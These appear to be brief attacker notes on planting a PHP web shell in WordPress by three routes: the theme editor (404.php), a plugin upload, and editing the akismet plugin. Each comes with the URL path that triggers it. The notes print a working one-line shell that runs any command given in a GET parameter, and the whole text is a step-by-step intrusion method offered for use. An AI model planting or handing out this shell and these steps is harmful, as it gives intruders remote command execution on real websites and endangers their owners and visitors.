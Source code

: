 # http wordpress shell upload --> 3 Methods to upload a shell and trigger it

## 1) Theme Editor

Dashboard > Appearance > Themes > & Edit Theme file like 404.php

trigger: wp-content/themes/<ThemeName>/404.php       Themname is sthm like twentyseventeen or twentyfifteen

```
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```


## 2) Plugins Upload

Dashboard > Plugins > Add Plugin - Upload Plugin > Choose File and click Install now button  -> ignore error message (package could not be installed bad format unable to find end of central dir record signature)

trigger: Path is shown under Media > Library > File  --> wp-content/uploads/Year/Month/shell.php

## 3) Edit Plugin

e.g akismet plugin

trigger: wp-content/plugins/akismet/akismet.php
tags: #wget #ftp #linux 
